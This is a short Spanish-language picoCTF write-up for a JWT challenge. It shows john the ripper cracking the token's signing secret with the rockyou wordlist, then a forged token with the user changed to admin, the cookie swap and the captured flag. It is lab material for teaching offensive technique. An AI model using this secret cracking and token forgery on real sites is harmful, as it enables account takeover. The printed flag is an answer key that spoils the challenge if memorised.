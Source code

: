 Hints:
- What is that cookie?
- Have you heard of JWT?

# Solución
Una vez ingresado y ver el Jason Web Token, usar la herramienta de john para poder crackear la contraseña con la que se firmó el JWT
```
┌──(diego㉿Tallin)-[~]
└─$ john jwt -w=/usr/share/wordlists/rockyou.txt 
Created directory: /home/diego/.john
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 128/128 SSE2 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico        (?)     
1g 0:00:00:02 DONE (2025-03-29 11:31) 0.4545g/s 3362Kp/s 3362Kc/s 3362KC/s iloverob4live345..ilovemymother@
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Despues editar el JWT con esa password y cambiando a admin el usuario y queda el siguiente JWT:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiQWRtaW4ifQ._fhKQBjX0j7E7ctMlrmIPVItohPeusmY2h7d0uXbye0
```

Cambiamos con cookie editor el JWT, guardamos y recargamos y vemos la flag
```
picoCTF{jawt_was_just_what_you_thought_44c752f5}
```